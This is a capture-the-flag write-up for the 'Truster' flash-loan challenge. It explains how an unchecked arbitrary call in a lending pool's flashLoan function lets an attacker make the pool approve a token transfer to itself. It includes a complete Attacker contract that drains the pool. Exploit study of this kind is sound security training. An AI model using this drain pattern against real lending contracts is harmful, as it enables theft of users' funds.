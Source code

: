 ## Truster

### **Problem:**
More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.
The pool holds 1 million DVT tokens. You have nothing.
To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

### **Solution:**
flashloan function takes in input the target address of the contract that will be called to repay the debt.
To do so, it calls directly `target.functionCall(data)` from address library of OpenZeppelin. It does not check which type of contract we passed as target.
We take advantage to instantiate a fl with amount of 0 token to borrow and we pass as target the address of the token and as data the function signature of the approve function.
In this way, `TrusterLenderPool` will approve tokens to our contract and we will be able to transfer all the tokens from the pool to our contract.

### **Code:**
```javascript
contract Attacker {
    TrusterLenderPool public pool;
    DamnValuableToken public token;
    address public recovery;

    constructor(TrusterLenderPool _pool, DamnValuableToken _token, address _recovery) {
        pool = _pool;
        token = _token;
        recovery = _recovery;
    }

    function attack() external {
        pool.flashLoan(0, address(this), address(token), abi.encodeWithSignature("approve(address,uint256)", address(this), type(uint256).max));
        token.transferFrom(address(pool), recovery, 1_000_000e18);
    }        
}
```


